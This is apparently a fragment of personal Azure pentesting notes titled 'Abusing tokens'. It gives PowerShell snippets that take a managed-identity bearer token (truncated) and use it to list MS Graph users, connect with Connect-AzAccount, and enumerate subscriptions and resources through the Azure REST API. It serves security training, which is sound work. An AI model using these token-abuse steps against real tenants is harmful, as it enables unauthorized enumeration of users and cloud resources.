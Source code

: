 ```
```

#### Get an access token for MS Graph. For example, list all the users
```
$Token = 'eyJ0eX..'
$URI = 'https://graph.microsoft.com/v1.0/users'
$RequestParams = @{
 Method = 'GET'
 Uri = $URI
 Headers = @{
 'Authorization' = "Bearer $Token"
 }
}
(Invoke-RestMethod @RequestParams).value 
```

### Abusing tokens
#### Check the resources available to the managed identity
Throws an error and nikil is unsure why
```
$token = 'eyJ0eX...'

Connect-AzAccount -AccessToken $token -AccountId <clientID> Get-AzResource
```

#### Use the Azure REST API to get the subscription id
```
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
$RequestParams = @{
 Method = 'GET'
 Uri = $URI
 Headers = @{
 'Authorization' = "Bearer $Token"
 }
}
(Invoke-RestMethod @RequestParams).value
```

#### List all the resources available by the managed identity to the app service
```
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$RequestParams = @{
 Method = 'GET'
 Uri = $URI
 Headers = @{
 'Authorization' = "Bearer $Token"
 }
}
(Invoke-RestMethod @RequestParams).value
```
